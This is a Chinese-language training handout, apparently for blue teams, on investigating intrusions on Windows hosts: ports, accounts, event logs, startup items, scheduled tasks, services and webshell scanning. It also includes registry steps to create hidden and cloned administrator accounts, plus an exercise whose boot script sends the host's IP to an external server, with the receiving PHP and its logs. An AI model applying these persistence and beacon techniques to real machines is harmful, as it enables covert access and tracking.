






1、入侵特点

2、走哪里入侵

3、针对性的排查

主要关注：进程、账号、网络活动、启动项目、日志

## 1、口令、端口

检查：询问管理员、通过注册表；nmap扫描（或者询问管理员的资产台账中的端口信息）

```
namp -p1-65535  -sV IP
```

如果能登录服务器：

```
netstat -ano
```

```
C:\Users\root>netstat -ano

活动连接

  协议  本地地址          外部地址        状态           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       984
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       516
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       776
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1272
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1600
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2708
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       768
  TCP    0.0.0.0:55888          0.0.0.0:0              LISTENING       6112
  TCP    127.0.0.1:53000        0.0.0.0:0              LISTENING       5936
  TCP    192.168.188.128:139    0.0.0.0:0              LISTENING       4
  TCP    192.168.188.128:62482  20.198.162.76:443      ESTABLISHED     3448
```

## 2 可疑账号

```bash
法1
net user
```

```bash
法2
lusrmgr.msc
```

```bash
法3
regedit
```

计算机\\HKEY\_LOCAL\_MACHINE\\SAM\\SAM\\Domains\\Account\\Users\\000003E9

注意：要先给SAM文件当前用户的读取权限

2.4 D盾查看是否存在克隆账号、隐藏账号

test\$   隐藏账号

# 克隆账号和隐藏账号如何创建★必会

1、创建普通隐藏账号

```
C:\Windows\system32>net user test$ test123 /add
命令成功完成。


C:\Windows\system32>net user

\\DESKTOP-6N9H4HS 的用户帐户

-------------------------------------------------------------------------------
Administrator            DefaultAccount           Guest
root                     WDAGUtilityAccount
命令成功完成。


C:\Windows\system32>
```

2、导出用户的注册表信息和管理员注册表信息

​​

​​

  2.1 先创建隐藏用户

2. 2导出注册表

修改user-test.reg中的F\=hex：后的内内容位admin.reg的内容

​​

删除影藏账号test\$

导入克隆的账号和Names导出的文件

```
C:\Windows\system32>net user test$ /del
命令成功完成。

C:\Windows\system32>regedit /s C:\Users\root\Desktop\names-test.reg

C:\Windows\system32>regedit /s C:\Users\root\Desktop\user-test.reg
```

查看是否导入成功：

​​

删除方式：

1  D盾直接删除

2 去注册表内删除

# 3 查看日志

结合登录时间、用户行为、明确账号是否有问题

重点关注的日志：

|windows事件ID|事件类型|描述|
| -----------------------------------------| --------------| --------------------------------------------------------------------------------|
|4624|用户成功登录|所有用户|
|4625|登陆失败|所有用户0|
|4634|退出登录||
|4656 4658 4659 4660 4661 4662 4663 4664|对象访问|当访问给定对象（文件、目录等）访问的类型（读、写、删），成功或失败的行为及用户|
|4720 4722 4723 4724 4725 4726 4738 4740|用户改变|账号改变：创建、删除、改密码|
|4627-4637    4739-4762|用户组改变|对一个用户在的所有改变行为：添加、移除等|
|4768   4776|成功账号验证||
|4771  4777|失败账号验证||
|4778  4779|主机会话状态|包括会话链接和断开|

快速检查的工具

​​

# 4、检查端口、进程

4.1 查看端口链接状况

```
C:\Users\root>netstat -ano

活动连接

  协议  本地地址          外部地址        状态           PID
  TCP    0.0.0.0:135            0.0.0.0:0              LISTENING       984
  TCP    0.0.0.0:445            0.0.0.0:0              LISTENING       4
  TCP    0.0.0.0:5040           0.0.0.0:0              LISTENING       516
  TCP    0.0.0.0:49664          0.0.0.0:0              LISTENING       776
  TCP    0.0.0.0:49665          0.0.0.0:0              LISTENING       628
  TCP    0.0.0.0:49666          0.0.0.0:0              LISTENING       1272
  TCP    0.0.0.0:49667          0.0.0.0:0              LISTENING       1600
  TCP    0.0.0.0:49668          0.0.0.0:0              LISTENING       2708
  TCP    0.0.0.0:49669          0.0.0.0:0              LISTENING       768
  TCP    0.0.0.0:55888          0.0.0.0:0              LISTENING       6112
  TCP    127.0.0.1:53000        0.0.0.0:0              LISTENING       5936
  TCP    192.168.188.128:139    0.0.0.0:0              LISTENING       4
  TCP    192.168.188.128:62482  20.198.162.76:443      ESTABLISHED     3448
  TCP    192.168.188.128:62661  14.22.7.190:80         ESTABLISHED     2716
  TCP    192.168.188.128:62662  118.112.238.199:80     ESTABLISHED     2716
```

4.2 针对 LISTENING状态的，如果看着比较陌生，使用tasklist跟进PID

```
C:\Users\root>tasklist | findstr 516
sihost.exe                    5780 Console                    1     30,516 K
ctfmon.exe                    5160 Console                    1     32,032 K
svchost.exe                    516 Services                   0     20,684 K
```

4.3 任务管理器查看

重点关注外联：

结合火绒剑和netstat -ano的外联IP，进行关联分析：

​​

结合蓝队分析工具：

​​

# 5 启动项目

## 注册表中查看启动项1

计算机\\HKEY\_CURRENT\_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run

计算机\\HKEY\_CURRENT\_USER\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Runonce

## 注册表中查看启动项2

计算机\\HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Run

计算机\\HKEY\_LOCAL\_MACHINE\\SOFTWARE\\Microsoft\\Windows\\CurrentVersion\\Runonce

## msconfig系统配置查看部分移动到了任务管理器

## 安装的安全防护软件

如：360   火绒的启动管理

## 程序-启动文件夹

5.4 老版本的windwos，在程序-启动文件夹中会存在部分自启动程序，路径如下：

```
C:\ProgramData\Microsoft\Windows\Start Menu/Programs/Startup

C:\Users\root\AppData\Roaming\Microsoft\Windows\Start Menu/Programs/Startup
```

## 开关机脚本

在本地组策略编辑器内，打开方式：gpedit.msc

关注其中的开机脚本和关机脚本

本地组策略编辑器-->计算机配置-->windwos设置--->脚本（启动/关机）

本地组策略编辑器-->用户配置-->windows设置-->脚本（登录/注销）

课堂练习：

1、创建隐藏账号和克隆账号

2、搞个开机脚本

客户端

​​

line.ps1

```bash
# 获取本地 IP 地址，排除回环地址  
$ipAddresses = Get-NetIPAddress -InterfaceAlias "*" -AddressFamily IPv4 | Where-Object { $_.AddressState -eq "Preferred" -and $_.InterfaceAlias -notlike "*Loopback Pseudo-Interface*" }  
  
# 选择第一个 IP 地址  
$clientIp = $ipAddresses[0].IPAddress  
echo $clientIp
# 服务器的 URL（替换为您的服务器地址和 PHP 脚本路径）  
$serverUrl = "http://47.113.187.190:90/line.php"  
  
# 发送 HTTP POST 请求  
Invoke-RestMethod -Uri $serverUrl -Method Post -Body ip=$clientIp 
```

```bash
@echo off  
powershell -File "C:\Users\Anonymous\Desktop\line.ps1"
```

gpedit.msc

​​

服务器端

line.php

```bash
<?php  
// 检查是否收到了 POST 请求  
if ($_SERVER['REQUEST_METHOD'] === 'POST') {  
    // 获取 POST 数据中的 IP 地址  
    $ip = isset($_POST['ip']) ? $_POST['ip'] : null;  
  
    // 验证 IP 地址（可选，但推荐）  
    if (filter_var($ip, FILTER_VALIDATE_IP)) {  
        // 记录 IP 地址到日志文件  
        $log_file = 'line_ip_log.txt';  
        $client_ip = $_SERVER['REMOTE_ADDR'];  
        $log_entry = date('Y-m-d H:i:s') . " - Received IP: $ip" . " - client IP: $client_ip\n";  
        file_put_contents($log_file, $log_entry, FILE_APPEND);  
  
        // 返回成功响应  
        echo "IP logged successfully";  
    } else {  
        // 返回错误响应  
        http_response_code(400);  
        echo "Invalid IP address";  
    }  
} else {  
    // 如果不是 POST 请求，则返回错误响应  
    http_response_code(405);  
    echo "Method Not Allowed";  
}  
?>
```

​​

```bash
2024-10-18 13:32:10 - Received IP: 172.30.144.1 - client IP: 171.223.229.61
2024-10-18 13:37:57 - Received IP: 172.30.144.1 - client IP: 171.223.229.61
2024-10-18 13:38:05 - Received IP: 172.30.144.1 - client IP: 171.223.229.61
2024-10-18 13:38:24 - Received IP: 172.30.144.1 - client IP: 171.223.229.61
2024-10-18 13:42:33 - Received IP: 172.29.240.1 - client IP: 171.223.229.61
2024-10-18 13:46:09 - Received IP: 192.168.64.1 - client IP: 171.223.229.61
2024-10-18 13:55:07 - Received IP: 192.168.56.1 - client IP: 171.223.229.61
```

# 6  计划任务（自启动相关）

## 6.1 查看系统计划任务列表：

```
C:\Users\root>schtasks  > ./Desktop/1.txt

C:\Users\root>at        #注意在windwos10以上已经禁用
AT 命令已弃用。请改用 schtasks.exe。

不支持该请求。

C:\Users\root>
```

就绪：已禁用：正在运行   三种结果，需要关注正在运行和就绪的计划任务

## 6.2 关注就绪的计划任务列表

​​

## 6.3 通过taskschd.msc查看计划任务

通过管理工具-计划任务程序查看计划任务

关注：就绪任务的类型和触发器

​​

## 6.4 第三方杀毒软件查看计划任务

## 关闭方法1：

​​

如果在计划任务程序查不到，使用命令行关闭2：   at命令

​​

# 7 服务（关注自启动的）

## services.msc打开

## 任务管理器打开

​​

需要关注自启动、延时启动的服务，查看是否有可疑的服务

​​

火绒剑内查看相关的恶意未知服务，或者可疑服务

​​

# 8 检查系统相关信息

使用命令查看系统线管信息

```bash
systeminfo
```

​​

查看os对应的版本一些补丁有没有安装

# 9 可疑文件

windwos10用户：

%UserProfile%\\Recent路径下存储最近编辑过的文件，检查最近更过过的文件；重点关注webshell

​​

windwos其他版本如xp或者老版本：

C:\\Documents and Settings

windows10:

%UserProfile%\\AppData\\Roaming\\Microsoft\\Windows\\Recent最近使用的项目

#### webshell、恶意文件查杀

D盾查杀

河马查杀：在线或者离线

安全狗（网站、服务器）免费

本地查杀产品：360、火绒、腾讯安全管家、卡巴斯基、大蜘蛛

## 在线杀毒

病毒动态：微步、安全厂商（深信服、360、奇安信）、freebuf论坛、先知社区、

国家信息安全漏洞库：[https://www.cnnvd.org.cn](https://www.cnnvd.org.cn)

国家计算机病毒应急处理中心：[https://www.cverc.org.cn/](https://www.cverc.org.cn/)
